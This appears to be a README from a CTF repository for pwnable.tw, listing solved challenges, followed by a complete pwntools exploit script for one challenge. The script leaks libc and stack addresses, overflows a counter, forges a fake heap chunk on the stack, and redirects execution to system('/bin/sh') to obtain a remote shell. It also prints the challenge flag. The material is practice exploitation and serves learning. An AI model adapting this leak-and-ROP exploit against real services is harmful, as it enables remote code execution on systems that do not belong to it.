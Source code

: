# PWNABLE.TW

>Author: Nigma

- #### Link pwnable.tw profile: [https://pwnable.tw/user/30002](https://pwnable.tw/user/30002)

## List challenge solved

|    Số thứ tự    |  Thử thách  | Writeup                                                       | Hoàn thiện |
| :-------------: | :---------: | :-----------------------------------------------------------: |:----------:|
|       01        |    Start    | [Start](./1_Start)                                            |✅         |         
|       02        |     orw     | [orw](./2_orw)                                                |✅         |
|       03        |CVE-2018-1160| [CVE-2018-1160](./3_CVE-2018-1160)                            |❌         |
|       04        |    calc     | [calc](./4_calc)                                              |✅         |
|       05        |    3x17     | [3x17](./5_3x17)                                              |✅         |
|       06        |  dubblesort | [dubblesort](./6_dubblesort)                                  |✅         |
|       07        |  hacknote   | [hacknote](./7_hacknote)                                      |✅         |
|       08        |Silver Bullet| [Silver Bullet](https://github.com/NigmaZ/Pwnable/tree/main/Pwnable.tw/8_Silver%20Bullet)                            |✅         |
|       09        |  applestore | [applestore](./9_applestore)                                  |✅         |
|       10        |   Re-alloc  | [Re-alloc](./10_Re-alloc)                                     |❌         |


```python
#!/usr/bin/env python3
from pwn import *
p = remote('chall.pwnable.tw', '10204')
# FLAG{Wh4t_1s_y0ur_sp1r1t_1n_pWn}

elf = ELF('./vuln')
libc = ELF('./libc.so.6')
# context.update(binary=elf, log_level='DEBUG')
# p = elf.process()
# gdb.attach(p, '''
#     b *survey+447
# ''')

def comment(name, age, cause, cmt):
	print(p.recvuntil(b'name: '))
	p.sendline(name)
	print(p.recvuntil(b'age: '))
	p.sendline(str(age).encode())
	print(p.recvuntil(b'movie? '))
	p.sendline(cause)
	print(p.recvuntil(b'comment: '))
	p.sendline(cmt)
	return

# leak - use cause | read not insert NULL into last string and printf => leak libc
name = b'A' * 16
age = 23
cause = b'B' * 79
cmt = b'C' * 59
comment(name, age, cause, cmt)

p.recvuntil(b'BBB\n')
leak = p.recv(12)
rsp = u32(leak[0:4]) - 0x118
elf.symbols['main'] = u32(leak[4:8]) - 51  
libc.address = u32(leak[8:12]) - 0x1b0d60
system = libc.symbols['system']
binsh = next(libc.search(b'/bin/sh'))

log.info('rsp:               ' + hex(rsp))
log.info('ELF base address:  ' + hex(elf.address))
log.info('LIBC base address: ' + hex(libc.address))
log.info('system address:    ' + hex(system))
log.info('`/bin/sh` address: ' + hex(binsh))

print(p.recvuntil(b'<y/n>: '))
p.sendline(b'y')   

# get cnt -> three digits
name = b'D' * 16
age = 23
cause = b'E' * 16
cmt = b'F' * 16
for i in range(9):
	comment(name, age, cause, cmt)
	print(p.recvuntil(b'<y/n>: '))
	p.sendline(b'y')   

for i in range(90):
	print(p.recvuntil(b'age: '))
	p.sendline(str(age).encode())
	print(p.recvuntil(b'movie? '))
	p.sendline(cause)
	print(p.recvuntil(b'<y/n>: '))
	p.sendline(b'y')   


# gdb.attach(p, '''
#     b *survey+447
# ''')

############# get shell ###########
name = b'G' * 16
age = 23
print(p.recvuntil(b'name: '))
p.sendline(name)
print(p.recvuntil(b'age: '))
p.sendline(str(age).encode())

# fake chunk in cause address 
rbp = rsp + 0x118 - 0x20
cause_addr = rbp - 0x50 
log.info('rbp:                                  ' + hex(rbp))
log.info('cause address in stack:               ' + hex(cause_addr))
cause = p32(0) + p32(0x41)
cause += b'A' * 0x38
cause += p32(0) + p32(0x11)
print(p.recvuntil(b'movie? '))
p.sendline(cause)

# fake pointer *name => cause address
cmt = b'I' * 80
cmt += p32(1) + p32(cause_addr + 8)
print(p.recvuntil(b'comment: '))
p.send(cmt)
print(p.recvuntil(b'<y/n>: '))
p.sendline(b'y')   

# malloc name return pointer in cause stack addr [rbp - 0x50] and read 0x6e => RIP control
name = b'A' * 0x48 + b'BBBB'
name += p32(system)
name += p32(0)
name += p32(binsh)
age = 23
cause = b'E' * 16
cmt = b'F' * 16

comment(name, age, cause, cmt)
print(p.recvuntil(b'<y/n>: '))
p.sendline(b'n')   


p.interactive()
```
